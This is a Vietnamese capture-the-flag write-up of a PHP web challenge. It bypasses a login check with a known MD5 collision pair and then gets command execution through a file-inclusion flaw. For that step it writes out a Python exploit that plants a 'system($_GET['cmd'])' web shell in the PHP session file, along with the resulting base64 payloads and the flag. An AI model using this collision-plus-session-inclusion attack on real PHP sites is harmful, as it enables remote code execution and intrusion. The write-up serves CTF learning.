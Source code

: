 Kiểm tra source thấy 1 đoạn

```php
if(isset($_POST["submit"])){
    $username = base64_decode($_POST['username']);
    $password = base64_decode($_POST['password']);

    if(($username == $password)){
        echo 'Username and password are not the same';
    }
    else if((md5($username)===md5($password))){
        $_SESSION['username'] = $username;
        header('Location: admin.php?file=1.txt');
    } else {
        echo 'Username and password are wrong';
    }
}
```

Vậy việc cần làm là tìm 2 chuỗi username và password có cùng md5 hash so sánh chắc chắn sau khi đã được decode base64

Hmm khó đây, sau khi research thì thấy có 1 lỗ hổng gọi là **md5 collision**

Tìm được 2 chuỗi hex sau khi md5 cho kết quả bằng nhau tại [mscs.dal.ca](https://www.mscs.dal.ca/~selinger/md5collision/)

```python
import hashlib
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

assert hashlib.md5(bytes.fromhex(username)).hexdigest() == hashlib.md5(bytes.fromhex(password)).hexdigest()
# đều bằng 79054025255fb1a26e4bc422aef54eb4
```

Sau khi login thành công qua vòng 1, đến file admin.php

```php
if($_SESSION['username'] != null){
        if(isset($_GET['file'])){
            $file = $_GET['file'];
            include($file);
        }
    }
```

Vì input username được gán vào biến `$_SESSION['username']` và mọi dữ liệu của SESSION được lưu trong file `/tmp/sess_PHPSESSID`

nên có thế thêm payload để thực thi code như sau:

```python
import hashlib
import base64
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

payload = b'<?php system($_GET[\'cmd\'])?>'
assert hashlib.md5(bytes.fromhex(username)+payload).hexdigest() == hashlib.md5(bytes.fromhex(password)+payload).hexdigest()
# md5(username) == md5(password)

print(hashlib.md5(bytes.fromhex(username)).hexdigest())
username_encodebase64 = base64.b64encode(bytes.fromhex(username)+payload)
password_encodebase64 = base64.b64encode(bytes.fromhex(password)+payload)

assert username_encodebase64 != password_encodebase64
# username != password
print(username_encodebase64)
print(password_encodebase64)

#username = 0THdAsXm7sRpPZoGmK/5XC/KtYcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMlcUFaCFEl6PfNyZ/ZHb3ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+K0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgKgNHsaYIby2qIOTlvllK2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+

#password = 0THdAsXm7sRpPZoGmK/5XC/KtQcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMl8UFaCFEl6PfNyZ/ZHb1ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+I0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgCgNHsaYIby2qIOTlvllq2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+
```

Sau khi login, vào trang admin.

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/7091180e-6288-4240-b0e3-223b6a6a19e3)

```CHH{7yPE_jU66lin9_hArdEr_97940fe057da6568c40d99ae587adee7}```
